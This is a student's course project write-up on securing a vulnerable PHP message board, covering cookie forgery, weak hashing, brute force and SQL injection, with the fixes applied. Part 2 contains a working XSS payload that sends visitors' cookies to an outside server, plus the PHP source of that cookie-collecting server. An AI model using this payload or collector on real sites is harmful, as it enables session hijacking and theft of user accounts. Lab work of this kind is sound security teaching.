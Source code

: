 # Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

Overall this application was extremely vulnerable to all sorts of different attacks. Malicious users could run arbitrary SQL queries as well as insert XSS attacks into posts. I outlined below my response to the specific security policies laid out in the assignment.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. The passwords are not hashed with a strong algorithm and they are not salted resulting in duplication of hashes.

 I fixed this by moving to a newer PHP function `password_hash()` which uses a much strong hashing function, handles salting, and enforces a "cost" which slows down direct brute force attacks on the server.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plaintext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trivial.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user. Once the user has exceeded 5 attempts, they have to wait a minute before trying again.

5. No password scheme was implemented, users could submit anything as a password.
 
 I implemented a password policy that says passwords must be at least 8 characters long, aren't dictionary words, and don't have too many letters, numbers, or special characters (must be a combination). This policy is enforced by my PHP Password class in the check() method.


I also solved a lot of the possible SQL injection attacks on the website by using `mysqli_real_escape_string()`. This function automatically escapes quotes and other special characters preventing attackers from running their own commands.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars()` function in PHP when rendering the user submitted content.

The source code of the attacker server is as follows:

```
<?php
$secretFile = "/tmp/foo.txt";
if (isset($_GET['c'])) {
        $fh = fopen($secretFile, 'a') or die("can’t open file");
        $stringData = $_GET['c']."\n";
        fwrite($fh, $stringData);
        fclose($fh);

        //Send an img
        header('Content-Type: image/jpeg');
        readfile("kitten.jpg");
} else {
        header("Content-Type: text/plain");
        readfile($secretFile);
}
?>
```

